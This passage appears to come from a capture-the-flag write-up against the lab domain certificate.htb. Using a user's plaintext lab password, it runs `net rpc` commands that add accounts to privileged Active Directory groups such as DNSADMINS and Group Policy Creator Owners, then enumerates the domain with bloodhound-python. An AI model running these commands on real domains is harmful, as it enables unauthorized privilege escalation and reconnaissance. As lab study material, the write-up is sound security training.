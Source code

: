     ['ACCOUNT OPERATORS', 'DOMAIN COMPUTERS', 'RAS AND IAS SERVERS', 'PROTECTED USERS', 'MARKETING', 'HR', 'HELP DESK', 'GROUP POLICY CREATOR OWNERS', 'FINANCE', 'ENTERPRISE READ-ONLY DOMAIN CONTROLLERS', 'DOMAIN USERS', 'DOMAIN STORAGE MANAGERS', 'DOMAIN GUESTS', 'DOMAIN CRA MANAGERS', 'DNSUPDATEPROXY', 'DNSADMINS', 'DENIED RODC PASSWORD REPLICATION GROUP', 'CLONEABLE DOMAIN CONTROLLERS', 'CERT PUBLISHERS', 'ALLOWED RODC PASSWORD REPLICATION GROUP', 'TERMINAL SERVER LICENSE SERVERS', 'WINDOWS AUTHORIZATION ACCESS GROUP', 'INCOMING FOREST TRUST BUILDERS', 'PRE-WINDOWS 2000 COMPATIBLE ACCESS', 'STORAGE REPLICA ADMINISTRATORS', 'REMOTE MANAGEMENT USERS', 'ACCESS CONTROL ASSISTANCE OPERATORS', 'RDS MANAGEMENT SERVERS', 'RDS ENDPOINT SERVERS', 'RDS REMOTE ACCESS SERVERS', 'HYPER-V ADMINISTRATORS', 'CERTIFICATE SERVICE DCOM ACCESS', 'EVENT LOG READERS', 'DISTRIBUTED COM USERS', 'CRYPTOGRAPHIC OPERATORS', 'IIS_IUSRS', 'PERFORMANCE LOG USERS', 'PERFORMANCE MONITOR USERS', 'NETWORK CONFIGURATION OPERATORS', 'REMOTE DESKTOP USERS', 'GUESTS', 'USERS']


I did a lot of group sleuthing and permissions, and this is an example of where I was adding sara to groups they didn't need to be a part of just to see what they could do. Future me will tell you there's a more direct way to see permissions from groups like dacledit read, but I haven't learned that yet.


```python
!net rpc group addmem "Group Policy Creator Owners" "sara.b" -U "certificate.htb"/"sara.b"%"Blink182" -S "certificate.htb"
!net rpc group addmem "DNSADMINS" "sara.b" -U "certificate.htb"/"sara.b"%"Blink182" -S "certificate.htb"
!net rpc group addmem "ALLOWED RODC PASSWORD REPLICATION GROUP" "sara.b" -U "certificate.htb"/"sara.b"%"Blink182" -S "certificate.htb"
```

    Can't load /etc/samba/smb.conf - run testparm to debug it
    Can't load /etc/samba/smb.conf - run testparm to debug it
    Can't load /etc/samba/smb.conf - run testparm to debug it



```python
!net rpc group addmem "ENTERPRISE READ-ONLY DOMAIN CONTROLLERS" "lion.sk" -U "certificate.htb"/"sara.b"%"Blink182" -S "certificate.htb"
```

    Can't load /etc/samba/smb.conf - run testparm to debug it



```python
!net rpc group addmem "Remote Management Users" "akeder.kh" -U "certificate.htb"/"sara.b"%"Blink182" -S "certificate.htb"
```

    Can't load /etc/samba/smb.conf - run testparm to debug it



```python
!bloodhound-python -dc dc01.certificate.htb -u "sara.b" -p "Blink182" -d certificate.htb -c All
```

    INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
    WARNING: Could not find a global catalog server, assuming the primary DC has this role
    If this gives errors, either specify a hostname with -gc or disable gc resolution with --disable-autogc
    INFO: Getting TGT for user
    INFO: Connecting to LDAP server: dc01.certificate.htb
    INFO: Found 1 domains
    INFO: Found 1 domains in the forest
    INFO: Found 3 computers
    INFO: Connecting to LDAP server: dc01.certificate.htb
    INFO: Found 19 users
    INFO: Found 58 groups
    INFO: Found 2 gpos
    INFO: Found 1 ous
    INFO: Found 20 containers
    INFO: Found 0 trusts
    INFO: Starting computer enumeration with 10 workers